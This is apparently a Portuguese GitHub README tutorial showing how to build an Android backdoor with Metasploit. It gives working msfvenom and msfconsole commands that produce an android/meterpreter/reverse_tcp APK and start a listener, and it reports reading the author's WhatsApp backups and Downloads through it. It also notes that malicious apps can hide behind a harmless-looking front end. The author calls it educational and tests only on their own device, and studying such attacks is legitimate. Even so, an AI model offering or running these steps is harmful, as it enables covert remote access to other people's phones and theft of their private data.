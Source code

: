 #
▬▬▬.◙.▬▬▬
═▂▄▄▓▄▄▂
◢◤ █▀▀████▄▄▄▄◢◤
█▄ █ █▄ ███▀▀▀▀▀▀▀╬
◥█████◤
══╩══╩═
╬═╬
╬═╬ 
╬═╬ 
╬═╬       Tutorial by Jetrom
╬═╬☻/
╬═╬/▌
╬═╬/ \

> ⚠️ Uso de má fé é de suma sua responsabilidade. Tutorial apenas para afins educativos.
#
Farei um backdoor, usando meu PC com meu android. Antes, devo explicar o que é "portas do fundo" (backdoor) é literalmente o uso da analogia que é feita. Poder ter acesso quando disponível e fazer alterações sem ser percebido pelo usuário.

<details><summary>Requisitos</summary><p>➡️ Aproximadamente 1 GB de espaço livre. <p>➡️ Firewall desativado. <p>➡️ Antivírus desativado. <p>➡️ 2 GB de ram ou superior. <details><summary>O que foi usado/testado ?</summary><p>➡️ Linux (Mint - <code>Release: 21.1 Codename: vera</code>)<p>➡️ Firewall do PC desativado. <p>➡️ Firewall do roteador ativado. <p>➡️ DNS do Google usado. <p>➡️ Antivírus (Kaspersky (free)) e Google Play Protect ativado. <p>➡️ VPN (ProtonVPN (free (protocolo OpenVPN-UDP))) ativado. <p>➡️ Metasploit Framework. </p></details></p></details>

>Usado DNS do [Quad9](https://www.quad9.net/) no meu roteador, obteve eficiência. Tanto no IPV4 quanto no IPV6. Se usado firewall durantes os testes com [GUFW](https://snapcraft.io/ufw) ativado, podes funcionar ou ser recusado. Configure seu firewall caso precise deixar ativado, se recusado.

Baixe no seu terminal:
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
  ```
Fonte: https://www.metasploit.com/download
>⚠️ A instalação possa ser diferente.

Depois execute no mesmo terminal para iniciar o Metasploit:

`msfconsole`

>⚠️ Possa haver uma demora. Dependerá do seu processador e quantidade de RAM livre.

O **Metasploit** perguntará:

`[?] Would you like to init the webservice? (Not Required) [no]:`

A princípio não iremos precisar deste recurso. `no`. Após executar, aguarde alguns minutos.

```                                                 
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\
```

Agora. Para iniciar nosso ataque. Precisamos de um payload e um ".apk". Como exemplo, iremos usar o Database do Metasploit.

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=localhost LPORT=4444 R >/home/jetronix/Jetrom.apk
```

<details><code>msfvenom</code><p> Gerar tipo de payload </p><code>-p</code><p> Informo um payload </p><code>android/meterpreter/reverse_tcp</code><p> Do tipo android e estabeça conexão com "revese_tcp" com atacante </p><code>LHOST=</code><p> Informa seu IP, quando se conecta a internet </p><code>LPORT=</code><p> Indica qual a porta será criada e acessado pelo atacante </p><code>R ></code><p>Será salvo o arquivo onde? O formato payload é RAW.</p></details>

> ⚠️ O tipo de ataque é na mesma rede LAN. Existe o `portfwd`, para ataques de longa distância, isto é, redes diferentes. Com isso é criado um túnel. No entanto, não usaremos isto.

```
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST localhost
set LPORT 4444
exploit
```
Dê ENTER se `exploit` estiver digitado e não executado. Com isso a conexão com aplicativo está feito. Enviando o "Jetrom.apk" para meu Android, obtive um aviso durante a instalação do apk:

<div align="center">
    <img src="https://raw.githubusercontent.com/Jetrom17/Metasploit/main/img/alert_malware.jpg?token=GHSAT0AAAAAABZRDV2YEU65ZLSC5D7RRSBAY5O5HFQ" height="450" />
</div>

> ⚠️ Existem formas de burlar o tipo de reconhecimento usado por antivírus, especificamente pelo Play Protect, pois tem uma baixa reputação conforme [AV Test](https://www.av-test.org/en/antivirus/mobile-devices/android/november-2022/google-play-protect-33.0-223608/). Não farei isso, deixarei como padrão. Kaspersky é free, tive que escanear manualmente. Se fosse pago, avisaria como mostra na imagem a cima.

<div align="center">
    <img src="https://raw.githubusercontent.com/Jetrom17/Metasploit/main/img/apps.jpg?token=GHSAT0AAAAAABZRDV2YMZXIOQYVLP4ZCNIGY5O5L4A" height="450" />
</div>

Conforme a imagem a cima. Percebemos que o aplicativo pede cerca de 26 permissões para o Android. Não há ícone definido e nem título definido. Como exemplo, nenhum usuário irá baixar esse aplicativo desta forma. Por isso alguns aplicativos contém um "front end" bonito e pede informações da câmera, alegando que "é nercessário o bom funcionamento do app, para que possa escanear Qr Code". Sendo que o app é uma loja de aplicativos alternativas da Google.
> ⚠️ Os dispositivos Android 10 + contém restrições mais forte do que um Android 4.4.1 (kikat). Uma sessão/opção do android contém "Remover permissões se o app não for usadp"/"Permissões removidas".

<div align="center">
    <img src="https://raw.githubusercontent.com/Jetrom17/Metasploit/main/img/backdoor.jpg?token=GHSAT0AAAAAABZRDV2ZSLXNI27K6EOKVJ3MY5O5VZQ" height="450" />
</div>

A imagem a cima contém informações dos **backups do meu Whatsapp**. Na mesma imagem, indo na direção abaixo, contém informções dos meus **Downloads**. O Metasploit informa que tenho seguintes permissões: (r,w (read, write)). O legal que o arquivo na pasta `data` do Android, não se encontra. Isto porque ele está oculto; acessível somente com usuário root. 
> ⚠️ O aplicativo não é oculto, mas os arquivos que são salvos no `data`, como por exemplo do Whatsapp: `data/.com.whatspp` que está vísivel. O invisível usado como usuário root, é a mesma técnica que o aplicativo DroidFS usa para criptografar; sem precisar o android está "rooteado". 

Após um certo tempo não usável, isto é, com conexão do Metasploit desativada e o aplicativo instalado no meu android 11, mais as permissões estando aceitadas por longo período. O Play Protect desativa o aplicativo, isolando.

<div align="center">
    <img src="https://raw.githubusercontent.com/Jetrom17/Metasploit/main/img/play_protect.jpg?token=GHSAT0AAAAAABZRDV2ZOAFPJ7SWFCGY3N3EY5O6B4A" height="450" />
</div>

#

Com isso, concluímos o ataque realizado e vemos a importância dos antívirus em dispositivos móveis. Equivale para Windows, sendo o mais popular para ataques. Não é descartado para outros sistemas operacionais. Vale ressaltar, que a prática usado é muito por criminosos e poucos por hackers éticos. Este foi um exemplo usando **backdoor** no android;

![](https://emojipedia-us.s3.dualstack.us-west-1.amazonaws.com/thumbs/120/microsoft/309/hacker-cat_1f431-200d-1f4bb.png)

